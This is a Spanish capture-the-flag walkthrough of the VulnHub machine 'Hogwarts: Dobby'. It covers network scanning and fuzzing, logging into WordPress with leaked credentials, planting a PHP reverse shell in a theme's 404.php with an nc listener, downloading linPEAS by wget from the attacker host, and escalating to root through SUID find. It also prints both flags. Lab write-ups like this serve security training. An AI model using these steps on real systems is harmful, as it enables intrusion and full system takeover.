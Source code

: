 <h1 align="center">
<br>
  <img src="http://pm1.narvii.com/6428/fb6021f8782bf80369c95fb2940fb77feb9813d0_00.jpg" alt="Front-End Checklist" width="250">
  <br>
  Hogwarts: Dobby
  <br>
</h1>

<h4 align="center">Maquina creada por <img src="https://img.icons8.com/android/344/twitter.png" alt="Front-End Checklist" width="12">@BertrandLorent9</h4>
<h4 align="center">Aquí puedes descargarte la <a href="https://www.vulnhub.com/entry/hogwarts-dobby,597/">página web</a> y ver una descripción de ella</h4>

---

# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Fuzz](#fuzz)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Wordpress](#wordpress)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Reverse Shell](#reverse-shell)
- [Post-explotación](#post-explotación)
  - [Foothold](#foothold)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [Linpeas](#linpeas)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [SUID](#suid)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.221.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.221.5```

### Fuzz

Para fuzzear la web usaremos este comando con una wordlist que tengamos:

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.5/FUZZ```

> ⚠️ Importante poner FUZZ alfinal de la URL

Buscando y rebuscando encontramos unas cuantas webs:

* http://192.168.221.5/log
```
#pass:OjppbGlrZXNvY2tz --> ilikesocks
hint --> /DiagonAlley
```
* http://192.168.221.5/alohomora/
```
Draco's password is his house ;)
```
> **slytherin es la casa de Draco Malfoy**

El siguiente ffuf sera para **/DiagonAlley** y descubriremos que es un Wordpress

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.5/DiagonAlley/FUZZ```

## Búsqueda de vulnerabilidades

### Wordpress

Al ver que tenemos un wordpress probamos las credenciales de **draco** como usuario y **slytherin** como contraseña

Explorando podemos ver que podemos editar el **404.php** --> **Editor** --> **Temas en Apariencia**

## Explotación de vulnerabilidades

### Reverse Shell

He utilizado esta [página web](https://www.hackingarticles.in/wordpress-reverse-shell/) para entender como explotar esta vulnerabilidad.

Ademas añado esta otra [página](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) para la reverse shell de php

> Modificar lo necesario de la reverse shell

Lo que procederemos ha hacer es añadir la reverse shell en el texto del **404.php**

Antes de ejecutar la url pondremos el comando para abrir el puerto puesto en la reverse shell:

```rlwrap nc -nvlp 4444```

Posteriormente a esto, haremos que la shell sea interactiva con este comando:

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

## Post-explotación

### Foothold

Nos conectaremos al usuario **dobby** con este comando:

```su dobby```

> La contraseña la hemos sacado anteriormente que es esta **ilikesocks**

Buscaremos la primera flag en el usuario dobby, en esta maquina no podemos utilizar **cat** para leer archivos, asi que he optado por usar el comando **less**

Aquí tenemos la primera flag: **flag1{28327a4964cb391d74111a185a5047ad}**

## Búsqueda de vulnerabilidades

### Linpeas

Utilizaremos el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) para enumerar las possibles vulnerabilidades que puede tener ese sistema para la escalada de privilegios.

Para enviar el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) con http usaremos esta forma:

En el **Server/Local** pondremos este comando: ```sudo python3 -m http.server 80```

En el **Cliente/Remota/Victima** pondremos este comando: ```wget 192.168.221.4/linpeas.sh```

## Explotación de vulnerabilidades

### SUID

Una de las mayores vulnerabilidades encontrada por el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) es la escalda de privilegios con el **/usr/bin/find**

He utilizado esta [página web](https://gtfobins.github.io/gtfobins/find/#suid) para sacar un payload con la funcion de bypasear la seguridad y conseguir el root

Pondremos este comando sacado de la anterior página web:

```/usr/bin/find . -exec /bin/sh -p \; -quit```

Y aquí tenemos la segnda flag:
```
                                         _ __
        ___                             | '  \
   ___  \ /  ___         ,'\_           | .-. \        /|
   \ /  | |,'__ \  ,'\_  |   \          | | | |      ,' |_   /|
 _ | |  | |\/  \ \ |   \ | |\_|    _    | |_| |   _ '-. .-',' |_   _
// | |  | |____| | | |\_|| |__    //    |     | ,'_`. | | '-. .-',' `. ,'\_
\\_| |_,' .-, _  | | |   | |\ \  //    .| |\_/ | / \ || |   | | / |\  \|   \
 `-. .-'| |/ / | | | |   | | \ \//     |  |    | | | || |   | | | |_\ || |\_|
   | |  | || \_| | | |   /_\  \ /      | |`    | | | || |   | | | .---'| |
   | |  | |\___,_\ /_\ _      //       | |     | \_/ || |   | | | |  /\| |
   /_\  | |           //_____//       .||`      `._,' | |   | | \ `-' /| |
        /_\           `------'        \ |   AND        `.\  | |  `._,' /_\
                                       \|       THE          `.\
                                            _  _  _  _  __ _  __ _ /_
                                           (_`/ \|_)/ '|_ |_)|_ |_)(_
                                           ._)\_/| \\_,|__| \|__| \ _)
                                                           _ ___ _      _
                                                          (_` | / \|\ ||__
                                                          ._) | \_/| \||___


root{63a9f0ea7bb98050796b649e85481845!!}
```

## Información Adicional

Páginas web utilizadas:

- [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) - Reverse Shell PHP

- [Wordpress Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/) - Explotar la vulnerabilidad del wordpress con un código malicioso

- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - Enumeración de escalada de privilegios local.

- [SUID](https://gtfobins.github.io/gtfobins/find/#suid) - Escalada de privilegios SUID con el find

**[⬆ back to top](#-----hogwarts-dobby-)**
